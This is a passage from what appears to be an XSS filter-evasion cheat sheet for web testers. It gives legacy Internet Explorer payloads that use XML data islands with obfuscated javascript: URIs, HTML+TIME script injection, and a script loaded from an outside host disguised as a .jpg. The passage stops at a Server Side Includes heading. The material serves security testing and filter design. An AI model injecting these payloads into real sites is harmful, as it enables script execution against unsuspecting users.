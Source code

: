 ## XML Data Island with CDATA Obfuscation

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

```xml
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

## Locally hosted XML with embedded JavaScript that is generated using an XML data island

This is the same as above but instead referrs to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

```xml
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

## HTML+TIME in XML

This is how Grey Magic hacked Hotmail and Yahoo\!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:

```html
<html>
  <body>
    <?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
    <?import namespace="t" implementation="#default#time2">
    <t:set attributeName="innerHTML" to="XSS
    <script defer>
      alert('XSS');
    </script>
    ">
  </body>
</html>
```

## Assuming you can only fit in a few characters and it filters against `.js`

You can rename your JavaScript file to an image as an XSS vector:

```html
<script src="http://xss.rocks/xss.jpg"></script>
```

## SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:
